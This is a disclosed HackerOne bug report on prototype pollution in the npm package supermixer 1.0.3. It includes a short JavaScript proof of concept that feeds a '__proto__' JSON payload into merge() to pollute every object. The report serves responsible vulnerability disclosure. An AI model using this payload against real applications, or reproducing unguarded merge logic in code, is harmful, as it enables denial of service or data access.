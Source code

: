 # [supermixer] Prototype pollution

## Report Details
- **Report ID**: 959987
- **URL**: https://hackerone.com/reports/959987
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-08-16T18:25:28.137Z
- **Disclosed**: 2020-08-20T11:10:40.365Z

## Reporter
- **Username**: u0pattern
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Prototype pollution in supermixer, It allows an attacker to modify the prototype of a base object which can vary in severity depending on the implementation.

# Module

**module name:** supermixer
**version:** 1.0.3
**npm page:** `https://www.npmjs.com/package/supermixer`

## Module Description

Mixes/merges/extends your object in multiple ways.

Unlike underscore/lodash utility methods this module allows you to:

* mix or deep merge objects' prototype chain. Regular mixin/extend/assign implementations can't do that.
* mix or deep merge unique properties only. I.e. data will not be overwritten if a property already exists.
* filter each individual property by target value, source value, and key. See API.
*  transform each value by resulting value, source value, and key. See API.

## Module Stats

[577] weekly downloads

# Vulnerability

## Vulnerability Description

Prototype Pollution is a vulnerability affecting JavaScript, Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects.

## Steps To Reproduce:

```javascript
var mixer = require('supermixer');
var payload = '{"__proto__":{"poc":"evil"}}';
var test = {};
console.log("Before: ", test.poc);
mixer.merge({},JSON.parse(payload));
console.log("After: ", test.poc);
```

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

DoS, Access to restricted data, rce (**depends on implementation**)

## Attachments
No attachments
